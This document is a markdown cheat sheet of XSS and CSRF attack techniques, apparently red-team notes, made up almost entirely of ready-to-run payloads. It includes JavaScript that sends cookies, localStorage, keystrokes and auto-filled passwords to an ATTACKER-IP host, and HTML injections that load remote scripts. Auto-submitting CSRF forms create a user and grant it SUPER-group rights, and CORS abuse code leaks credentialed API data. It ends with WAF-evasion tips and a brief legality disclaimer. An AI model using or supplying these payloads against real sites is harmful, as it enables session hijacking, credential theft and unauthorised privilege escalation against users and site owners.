 # Enhanced XSS and CSRF Attack Notes

## ✨ Overview

This document expands on the basic commands and techniques for exploiting XSS (Cross-Site Scripting) and CSRF (Cross-Site Request Forgery) vulnerabilities. It includes detailed explanations, practical use cases, and security considerations for each payload or technique.

---

## 🛠️ Setting Up for XSS Attacks

### Launch Attacker Server

```bash
python3 -m http.server 80
```

**Purpose:** Hosts malicious JavaScript files and receives exfiltrated data.

**Use case:** Necessary for payload delivery or capturing stolen information.

---

## 🍎 Cookie Stealing

### JavaScript Payload

```javascript
let cookie = document.cookie;
let encodedCookie = encodeURIComponent(cookie);
fetch("http://ATTACKER-IP/exfil?data=" + encodedCookie);
```

**Purpose:** Sends victim's cookies to the attacker.

**Use case:** Session hijacking by stealing session tokens stored in cookies.

**Note:** This won’t work if the cookie is marked `HttpOnly`.

---

## 🌐 LocalStorage Exfiltration

```javascript
let data = JSON.stringify(localStorage);
let encodedData = encodeURIComponent(data);
fetch("http://ATTACKER-IP/exfil?data=" + encodedData);
```

**Purpose:** Steals localStorage contents, which may contain sensitive tokens or user data.

**Use case:** Applicable if the app stores auth tokens or PII in localStorage.

---

## ⌨️ Keylogging with XSS

```javascript
function logKey(event) {
    fetch("http://ATTACKER-IP/k?key=" + event.key);
}
document.addEventListener('keydown', logKey);
```

**Purpose:** Captures and exfiltrates keystrokes.

**Use case:** Ideal for stealing credentials typed into login forms.

**Limitation:** Only works on the same tab and document.

---

## 🔑 Password Manager Auto-Fill Theft

```javascript
let body = document.getElementsByTagName("body")[0];

var u = document.createElement("input");
u.type = "text";
u.style.position = "fixed";
u.style.opacity = "0";

var p = document.createElement("input");
p.type = "password";
p.style.position = "fixed";
p.style.opacity = "0";

body.append(u);
body.append(p);

setTimeout(function() {
  fetch("http://ATTACKER-IP/k?u=" + u.value + "&p=" + p.value);
}, 5000);
```

**Purpose:** Steals auto-filled credentials.

**Use case:** Effective against password managers if the form is filled automatically.

---

## 🚨 Anti-Caching Payload

```html
<img src="x" onerror="var s=document.createElement('script'); s.src='http://ATTACKER-IP/xss.js?' + Math.random(); document.body.appendChild(s);">
```

**Purpose:** Bypasses browser caching (304 responses).

**Use case:** Ensures fresh loading of `xss.js` on every execution.

---

## 🌍 Basic and Alternative XSS Payloads

### Script Tag Injection

```html
<script src="http://ATTACKER-IP/xss.js"></script>
```

### Mouse Hover Payload

```html
<div onmouseover="var s=document.createElement('script'); s.src='http://ATTACKER-IP/xss.js'; document.body.appendChild(s);">Hover Me</div>
```

### Click Event Payload

```html
<a href="#" onclick="var s=document.createElement('script'); s.src='http://ATTACKER-IP/xss.js'; document.body.appendChild(s);">Click Me</a>
```

---

## ⚡ CSRF Attacks

### Single Action CSRF (Add New User)

```html
<html>
<body onload="document.forms['csrf'].submit()">
  <form action="https://TARGET-APP/webtools/control/createUserLogin" method="post" name="csrf">
    <input type="hidden" name="userLoginId" value="csrftest">
    <input type="hidden" name="currentPassword" value="password">
    <input type="hidden" name="currentPasswordVerify" value="password">
  </form>
</body>
</html>
```

### Dual-Form CSRF (Add User + Grant Admin Privileges)

```html
<html>
<head>
<script>
  function submitForms() {
    document.forms['csrf'].submit();
    setTimeout(function() {
      document.forms['csrf2'].submit();
    }, 1000);
  }
</script>
</head>
<body onload="submitForms();">
  <form action="https://TARGET-APP/webtools/control/createUserLogin" method="post" name="csrf">
    <input type="hidden" name="userLoginId" value="csrftest">
    <input type="hidden" name="currentPassword" value="password">
    <input type="hidden" name="currentPasswordVerify" value="password">
  </form>
  <form action="https://TARGET-APP/webtools/control/userLogin_addUserLoginToSecurityGroup" method="post" name="csrf2">
    <input type="hidden" name="userLoginId" value="csrftest">
    <input type="hidden" name="groupId" value="SUPER">
  </form>
</body>
</html>
```

### Hosting CSRF Files

```bash
sudo cp your-csrf-file.html /var/www/html/
sudo systemctl restart apache2
```

---

## 🔐 CORS Misconfiguration Testing

### Basic OPTIONS Request

```bash
curl -X "OPTIONS" -i -k https://TARGET-APP/allowlist
```

### Spoof Origin with Similar Domain

```bash
curl -X "OPTIONS" -i -H "Origin: http://www.target-security.com" -k https://TARGET-APP/allowlist
```

### Spoof with Prefix/Suffix Variants

```bash
curl -X "OPTIONS" -i -H "Origin: http://faketarget-security.com" -k https://TARGET-APP/allowlist
curl -X "OPTIONS" -i -H "Origin: http://target-security.net" -k https://TARGET-APP/allowlist
```

### Exploiting CORS with JavaScript

```javascript
fetch('https://vulnerable-site/api/sensitive-data', {
  method: 'GET',
  credentials: 'include'
})
.then(res => res.json())
.then(data => {
  fetch('http://ATTACKER-IP/corsdata?data=' + encodeURIComponent(JSON.stringify(data)));
});
```

---

## 🕵️ Tips for Red Teamers

* Always obfuscate or encode your payloads to bypass WAFs.
* Mix event handlers (`onerror`, `onload`, `onclick`) depending on injection context.
* Combine CSRF and XSS for deeper privilege escalation.
* Use `Content-Security-Policy` bypass payloads where applicable.

---

**Stay Legal!** These techniques should only be used in authorized testing environments or with explicit permission.

---


